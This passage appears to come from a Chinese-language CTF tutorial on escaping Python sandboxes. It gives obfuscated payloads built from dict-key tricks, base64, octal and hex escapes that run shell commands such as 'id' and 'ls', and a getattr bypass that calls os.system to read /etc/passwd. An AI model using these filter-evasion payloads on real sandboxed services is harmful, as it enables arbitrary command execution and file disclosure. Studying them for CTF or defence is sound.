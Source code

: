 exp:

```
s = "eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False])"
octal_string = "".join([f"\\{oct(ord(c))[2:]}" for c in s])
print(octal_string)
```

十六进制：

```
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

exp:

```
s = "eval(eval(list(dict(v_a_r_s=True))[len([])][::len(list(dict(aa=()))[len([])])])(__import__(list(dict(b_i_n_a_s_c_i_i=1))[False][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b___b_a_s_e_6_4=1))[False][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbignZWNobyBIYWNrZWQ6IGBpZGAnKS5yZWFkKCkg=True))[False]))"
octal_string = "".join([f"\\x{hex(ord(c))[2:]}" for c in s])
print(octal_string)
```

#### 其他编码[](#其他编码)

hex、rot13、base32 等。

### 过滤了属性名或者函数名[](#过滤了属性名或者函数名)

在 payload 的构造中，我们大量的使用了各种类中的属性，例如 `__class__`、`__import__` 等。

#### getattr 函数[](#getattr-函数)

getattr 是 Python 的内置函数，用于获取一个对象的属性或者方法。其语法如下：

```
getattr(object, name[, default])
```

这里，object 是对象，name 是字符串，代表要获取的属性的名称。如果提供了 default 参数，当属性不存在时会返回这个值，否则会抛出 AttributeError。

```
>>> getattr({},'__class__')
<class 'dict'>
>>> getattr(os,'system')
<built-in function system>
>>> getattr(os,'system')('cat /etc/passwd')
root:x:0:0:root:/root:/usr/bin/zsh
>>> getattr(os,'system111',os.system)('cat /etc/passwd')
root:x:0:0:root:/root:/usr/bin/zsh
```
